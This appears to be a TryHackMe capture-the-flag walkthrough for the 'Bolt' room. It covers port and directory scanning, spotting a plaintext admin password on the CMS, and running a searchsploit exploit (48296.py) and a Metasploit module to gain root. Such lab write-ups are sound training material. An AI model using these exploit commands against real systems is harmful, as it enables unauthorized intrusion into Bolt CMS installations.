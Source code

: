 TryHackMe <br>
Bolt
---

Nmap scan shows us three open ports. <br> 
Port 80 is just the apache server page, however, port 8000 is the CMS (*content management system*). <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/7da68b54-f14c-44d3-b7cb-fd2f4dc381d5)

Gobuster scan on the webpage on port 8000: <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/9ef1850c-a13c-4192-99f7-9df65d0840e5) 

On the bottom of the page there are some interesting links that I need to check out. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/6ed3b063-220a-4ec3-99d2-e08b96d498c9)

The *Message From Admin* is the same note on the main page. <br>
The *Message for IT Department* link shows another note from the admin with his password in plaintext! <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/4ee41e75-2b81-45ff-9398-b3ecff567c7a)

I also decided to check the source code for anything extra and from there I found the version number. <br>
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/84250b57-cc89-4b5b-9241-f9d2f35cb78f)

Now that I have the version number and name of the service it’s time to check `searchsploit`. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/25d63b5f-8bb9-4b93-b3f6-75bc990623eb)

The way I originally chose to exploit this was on my machine first, then I used `Metasploit` (per the room instructions). <br>

```
$ searchsploit -m php/webapps/48296.py
# mirrors/downloads the script to my machine

$ python3 ./48296.py http://<target_IP>:8000 <username> <password>
# command to run the script
```

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/2790ff36-d2d9-4103-9e87-741505afcc54)

Now that I have root access time to check for the flag. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/0a9f3e30-b916-4122-b030-4a0b0d7daf2b)

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/7211df03-ff15-4b5a-a0e3-9e0b2cc2cc87)


To be able to do this in Metasploit: <br>

```
$ search bolt 3.7
# searches the metasploit DB for exploits relating to the search parameters
```

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/7b783b7d-26ef-4ce9-9993-4f8a168d3f14)

```
$ use 0
# this selects the module to use, since this is numbered “0” that’s what I typed

$ show options
# shows the parameters that are used and what needs to be changed.

$ set RHOSTS <target_IP>
$ set LHOST <attack_machine_IP>
$ set USERNAME <username>
# enter the username to be used
$ set PASSWORD <password>
# enter the password to be used

$ run
# executes the exploit with the given parameters
```
From there you can use the `find` command again to locate the file.




